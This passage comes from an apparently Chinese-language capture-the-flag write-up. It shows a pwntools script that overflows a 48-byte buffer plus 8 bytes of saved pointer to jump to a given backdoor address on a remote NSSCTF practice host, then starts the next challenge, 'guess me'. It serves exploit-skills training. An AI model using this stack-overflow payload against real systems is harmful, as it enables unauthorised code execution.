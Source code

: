 简单的栈溢出，backdoor的位置直接给了

![](./images/image-109.png)

写脚本如下，buf的长度就只有48，加上8位的指针，达到backdoor的位置

```
from pwn import *

io=remote("node4.anna.nssctf.cn",28296)
target=0x000000000040123A
payload=b'a'*(48+8)+p64(target)

io.sendline(payload)
io.interactive()
```

![](./images/image-110.png)

## guess me

题目没有附件，先直接连接看看

![](./images/image-111.png)
